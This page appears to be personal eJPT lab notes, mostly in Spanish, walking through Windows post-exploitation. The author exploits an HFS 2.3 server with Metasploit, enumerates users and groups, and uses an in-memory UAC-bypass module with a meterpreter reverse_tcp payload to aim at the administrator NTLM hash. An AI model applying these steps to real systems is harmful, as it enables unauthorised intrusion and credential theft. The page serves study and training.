

repository: scarlgyx/scarlgyx-cybersecurity · page: certs/ejpt/windows-post-exploitation/01-windows-post-exploitation/index.html · generator: mkdocs

# Windows Post-Exploitation

### UAC Bypass: Memory Injection (Metasploit)

**Objetive:** Gain the highest privilege on the compromised machine and get administrator user NTLM hash.

![](../../../assets/img/Pasted_image_20260914135345.png)

En el puerto 80 vemos un HFS 2.3 (HttpFileServer)

![](../../../assets/img/Pasted_image_20260914135454.png)

Buscaremos exploits en metasploit
```bash
search HFS 2.3
```

Usaremos *windows/http/rejetto_hfs_exec*

Ajustamos las opciones

![](../../../assets/img/Pasted_image_20260914140130.png)

VICTIM\admin

Con *getsystem* no obtenemos la escalada

![](../../../assets/img/Pasted_image_20260914140243.png)

```powershell
whoami /priv
```

![](../../../assets/img/Pasted_image_20260914140636.png)

Nada interesante

```powershell
net users
```

![](../../../assets/img/Pasted_image_20260914140722.png)

Nos muestra admin, Administrator y Guest

Vamos a enumerar los miembros del grupo *administrators*
```powershell
net localgroup administrator
```

![](../../../assets/img/Pasted_image_20260914141027.png)

Vemos que estamos nosotros *admin* y el usuario *Administrator*

Esto significa que podremos hacer cambios privilegiados y podremos bypasear el UAC

![](../../../assets/img/Pasted_image_20260914141243.png)

Buscaremos un módulo de postexplotación en metasploit que nos permita esto
```powershell
ctrl+c
```

```bash
background
search windows bypassuac
```

![](../../../assets/img/Pasted_image_20260914141639.png)

Vemos varios módulos con diferentes técnicas de explotación

El que nos interesará es el de injection, ya que es **En memoria**, nosotros tenemos el meterpreter cargado

![](../../../assets/img/Pasted_image_20260914142033.png)

Establecemos la sesión 1 donde tenemos cargado el meterpreter
Cambiaremos la arquitectura a x64 para que no de error
```bash
set target Windows\ x64
```

Cambiaremos el payload a x64 también
```bash
windows/x64/meterpreter/reverse_tcp
```

Conseguimos ejecutar el exploit

![](../../../assets/img/Pasted_image_20260914142250.png)
